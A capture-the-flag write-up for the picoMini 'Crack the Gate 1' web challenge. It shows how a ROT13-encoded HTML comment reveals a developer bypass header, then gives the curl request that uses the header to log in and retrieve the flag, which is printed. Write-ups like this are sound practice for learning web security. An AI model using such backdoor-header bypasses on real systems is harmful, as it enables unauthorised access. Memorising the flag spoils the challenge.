

# Crack the Gate 1 — Web Exploitation, Easy (picoMini by CMU-Africa)

- **Competition:** picoMini by CMU-Africa
- **Category:** Web Exploitation
- **Difficulty:** Easy
- **Author:** Yahaya Meddy

## Statement

We're in the middle of an investigation. One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal. We've uncovered the email address he uses to log in: `ctf-player@picoctf.org`. Unfortunately, we don't know the password, and the usual guessing techniques haven't worked. But something feels off... it's almost like the developer left a secret way in. Can you figure it out?



This is the only thing on the page.

## Thought Process

1. First I checked the network. When I clicked login I analyzed the traffic and saw it fetches from `/login`. I got wrapped around in my head thinking "is there a way I can mess with that endpoint and attack it?" — I kinda overthink a bit.
2. Next I looked at the script:

```html
<script>
        document.getElementById('loginForm').addEventListener('submit', function(event) {
            event.preventDefault();

            const formData = {
                email: document.getElementById('email').value,
                password: document.getElementById('password').value
            };

            fetch('/login', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(formData)
            })
            .then(response => response.json())
            .then(data => {
                console.log(data);
                if (data.success) {
    prompt('Login successful!\nFlag:', data.flag);
} else {
    alert('Invalid credentials');
}

            })
            .catch(error => console.error('Error:', error));
        });
    </script>
```

3. I thought "what if I just edit it so `data.success` returns true and see what happens?" I tried editing elements and replacing `data.success` with `true`. Didn't work. Looking back it makes sense — `data.success` is whatever the server actually responds with, so faking it in the browser can't make the server hand over the flag.
4. Then I saw a comment in the HTML:

```html
...
<body>
 <!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
<!-- Remove before pushing to production! -->

    <form id="loginForm">
...
```

5. I ran a Caesar cipher on it. A +13 shift (ROT13) reveals:

```html
<!-- NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes" -->
```

6. So I made a curl command with that header:

```bash
curl -X POST http://amiable-citadel.picoctf.net:63393/login \
  -H 'Content-Type: application/json' \
  -H 'X-Dev-Access: yes' \
  -d '{"email":"ctf-player@picoctf.org","password":"anything"}'
```

7. The curl request returned:

```json
{"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{brut4_f0rc4_cbb8faa7}"}
```

Boom, we got the flag.

## Flag

```
picoCTF{brut4_f0rc4_cbb8faa7}
```